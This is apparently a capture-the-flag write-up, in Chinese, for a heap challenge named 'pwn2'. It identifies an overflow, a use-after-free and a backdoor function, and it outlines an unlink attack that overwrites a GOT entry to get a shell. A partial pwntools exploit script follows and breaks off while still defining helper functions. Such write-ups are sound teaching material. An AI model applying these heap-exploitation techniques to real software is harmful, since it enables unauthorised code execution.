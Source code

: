 

---



## pwn2



checksec![5ca350757d86f](https://i.loli.net/2019/04/02/5ca350757d86f.png)













1. main ![5ca350d79c851](https://i.loli.net/2019/04/02/5ca350d79c851.png)

2. 2![5ca3518348065](https://i.loli.net/2019/04/02/5ca3518348065.png)固定0x80大小，没有检查当前index是否有结点，同一个index可以被覆盖

3. 3![5ca351882aaea](https://i.loli.net/2019/04/02/5ca351882aaea.png)任意长度写，可以溢出到下一个堆

4. 4![5ca3518d5b071](https://i.loli.net/2019/04/02/5ca3518d5b071.png)UAF，name处存在dangling pointer

5. 5![5ca35191ccb26](https://i.loli.net/2019/04/02/5ca35191ccb26.png)

6. 6![5ca35195d0612](https://i.loli.net/2019/04/02/5ca35195d0612.png)自带的后门函数



edit_node可以溢出到下一个堆，同时也存在一个chunk_list储存所有堆指针，可以构造fake_chunk来进行unlink。

达到Arbitrary Write，同时注意到edit_node中有一个没用的getchar()，可以覆写其got表为后门函数指针。再次edit_node拿到shell。



```python
from pwn import *

io = process('./pwn2')
context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']
#elf = ELF('./pwn2')

def DEBUG():
	gdb.attach(io)
	io.interactive()

def createnode(idx):
	io.recvuntil("----\n")
	io.sendline('1')

	io.sendline(str(idx))

def editnode(idx,length,content):
	io.sendlineafter("---------------------------\n",'2')

	io.sendline(str(idx))

	io.sendline(str(length))

	io.sendline(content)
	
def delnode(idx):
	io.sendlineafter("---------------------------\n",'3')
	io.sendline(str(idx))

def shownode(idx):
```